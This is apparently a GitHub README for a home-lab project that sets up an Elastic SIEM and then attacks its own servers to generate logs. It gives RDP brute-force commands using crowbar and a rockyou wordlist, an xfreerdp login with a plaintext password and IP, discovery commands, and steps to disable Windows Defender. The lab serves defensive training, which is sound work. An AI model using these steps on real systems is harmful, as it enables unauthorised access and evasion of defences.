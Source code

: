 # SocAnalyst

This project aims to demonstrate step-by-step how to create a SIEM infratstructure capable of logging attempts to breach network security.

For this project a series of servers were created in order to log attempts, either SSH or RDP based.

Elastic servers were also created in order to provide log integrity in case one of the servers was compromised. It also provides a GUI proportioning ease for log access.

## Infrastructure

It consists of 3 vLans:

1. ELK vLan
2. Windows Server vLan
3. Ubuntu Server vLan

### ELK vLan

- Fleet server: Pulls logs from assigned servers and sends them to Elasticsearch server
- Elasticsearch & Kibana server: Used to create the GUI used for log inspection

## Project Diagram

## ![Diagram](/images/30-day-dFir-Diagram.jpg)

Once the infrastructure is setup the project aims to complete the attack diagram by:

1. Brute forcing either Windows server of ubuntu server using a kali linux machine.
2. During discovery look for potential targets
3. Disable Windows Defender
4. Execute payload from Mythic agent
5. Stablish Command & Control
6. Exfiltrate data

## Attack Diagram

![attackDiagram](/images/atackDiagram.jpg)

### Following the diagram

#### Phase 1

On kali Linux's terminal

1. `cd /usr/share/wordlists`
   ![kaliWordlists](/images/kaliWordlists.png)
2. `sudo gunzip rockyou.txt.gz`

3. `head -50 rockyou.txt > ~/kali-wordlist.txt`

4. append the server password to the list: `echo "{SERVER_PASSWORD}" >> ~/kali-wordlist.txt`
5. `sudo apt update && sudo apt upgrade -y`
6. `sudo apt install crowbar -y`
7. Create a target txt file with:

   - Target IP Address
   - Target username

8. `crowbar -b rdp -u rfAdmin123 -C kali-wordlist.txt -s 4.182.221.204/32`

   - -b {openvpn,rdp,sshkey,vnckey}, --brute {openvpn,rdp,sshkey,vnckey}
     Target service
   - -u USERNAME [USERNAME ...], --username USERNAME [USERNAME ...]
     Static name to login with
   - -C FILE, --passwdfile FILE
     Multiple passwords to login with, stored in a file
   - -s SERVER, --server SERVER
     Static target

![crowbarSuccess](/images/crowbarSuccess.png)

9. `xfreerdp /u:rfAdmin123 /p:Spring2025! /v:4.182.221.204`

   - /u: Username
   - /p: Password
   - /v: Server hostname

10. Do you trust the certificate? `Y`

_Connection successful_

#### Phase 2

1. Open command prompt
2. Run commands `whoami` `ipconfig` `net user` `net group` `net user {WHOAMI_USER}`

#### Phase 3

1. On windows security settings disable all options for realtime protection
